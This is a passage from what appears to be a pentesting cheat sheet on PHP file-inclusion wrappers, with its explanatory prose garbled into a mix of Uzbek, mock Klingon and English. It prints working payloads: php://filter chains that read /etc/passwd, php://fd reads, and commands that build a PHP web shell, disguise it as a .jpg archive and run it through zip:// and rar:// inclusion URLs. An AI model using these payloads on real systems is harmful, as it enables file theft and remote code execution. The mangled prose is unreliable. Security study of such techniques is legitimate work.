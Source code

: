 ```php
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```
{% hint style="warning" %}
"php://filter" qo'lu katta kichik harflardan iborat bo'lib, harf katta kichiklikdan tashqari qabul qilinadi.
{% endhint %}

### php://fd

Ushbu qo'llaydigan fayl deskrptorlarga kirish imkonini beradi. Ochilgan fayllarning tarkibini eksfiltratsiya qilish uchun potentsial ravishda foydali bo'lishi mumkin:
```php
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```
**php://stdin, php://stdout** jev **php://stderr** vItlhutlh **file descriptors 0, 1, je 2** **ghaH** (ghaH 'attack' vItlhutlh) **ghaH**.

### zip:// je rar://

Zip je Rar file **PHPShell** vItlhutlh je **access**.\
rar protocol **ghaH specifically activated** **ghaH**.
```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```
### data://

#### Description

The `data://` protocol allows you to include data directly into a web page or script. It is commonly used to embed images, audio files, or other types of data within HTML documents.

#### Vulnerability

When a web application uses user-supplied input to construct a file path without proper validation or sanitization, it can lead to a file inclusion vulnerability. An attacker can manipulate the input to include arbitrary files from the server's filesystem, including sensitive files containing passwords, configuration files, or even source code.
